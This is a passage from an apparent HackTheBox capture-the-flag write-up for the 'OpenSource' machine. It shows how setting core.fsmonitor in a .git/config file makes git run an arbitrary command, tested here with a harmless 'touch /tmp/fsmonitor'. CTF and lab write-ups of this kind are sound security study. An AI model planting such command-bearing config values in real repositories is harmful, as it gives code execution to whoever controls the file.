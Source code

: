 ```
dev01@opensource:~$ cat .git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://opensource.htb:3000/dev01/home-backup.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

Another consideration to me was the box was released in 2022 so searching for git vulnerabilities within that year might be worthwhile. The "git vulnerability 2022" search did the trick after scrolling a bit to find [this post about fsmonitor running commands](https://github.blog/open-source/git/git-security-vulnerability-announced/).

[From the git-config documentation for verison 2.35.2](https://git-scm.com/docs/git-config/2.35.2#Documentation/git-config.txt-corefsmonitor):

```
core.fsmonitor

If set, the value of this variable is used as a command which will identify all files that may have changed since the requested date/time. This information is used to speed up git by avoiding unnecessary processing of files that have not changed. See the "fsmonitor-watchman" section of [githooks[5]](https://git-scm.com/docs/githooks).
```

I test this vuln by adding fsmonitor and having it create a file in /tmp

```bash
dev01@opensource:~$ cat .git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "touch /tmp/fsmonitor"
[remote "origin"]
	url = http://opensource.htb:3000/dev01/home-backup.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
dev01@opensource:~$ ls /tmp
fsmonitor
snap.docker
systemd-private-46f86691781f43539d1d445c40d06bd1-systemd-resolved.service-mRGDu2
systemd-private-46f86691781f43539d1d445c40d06bd1-systemd-timesyncd.service-qWaslc
vmware-root_907-4021784429
```
